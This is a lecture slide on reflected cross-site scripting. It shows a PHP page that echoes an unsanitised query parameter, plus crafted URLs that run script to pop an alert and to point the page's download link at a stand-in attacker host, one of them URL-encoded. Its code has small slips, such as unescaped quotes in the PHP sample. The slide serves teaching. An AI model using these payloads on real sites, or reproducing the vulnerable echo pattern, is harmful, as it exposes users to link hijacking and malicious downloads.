

# Non-Persistent XSS Attack Example
Given the file index.php
<?php
$name = $_GET['name'];
echo "Welcome $name<br>";
echo "<a href="http://xssattackexamples.com/">Click to Download</a>";
?>
The attacker crafts a URL and sends it to the victim
index.php?name=guest<script>alert('attacked')</script>
When the victim loads the above URL he sees an alert box which says “attacked”; this example does no damage
The attacker crafts a second URL and sends it to the victim
index.php?name=<script>window.onload = function()
{var link=document.getElementsByTagName("a");
link[0].href="http://not-real-xssattackexamples.com/";}</script>
Now the href of the first link of the page has been changed to point to the not-real-xssattackexamples
Typically the attacker will encode the ASCII character as follows:
index.php?name=%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%76%61%72%20%6c%69%6e%6b%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%22%61%22%29%3b%6c%69%6e%6b%5b%30%5d%2e%68%72%65%66%3d%22%68%74%74%70%3a%2f%2f%61%74%74%61%63%6b%65%72%2d%73%69%74%65%2e%63%6f%6d%2f%22%3b%7d%3c%2f%73%63%72%69%70%74%3e
31
Copyright (c) 2009-2016  Arun Viswanatha, Ellis Horowitz, Marco Papa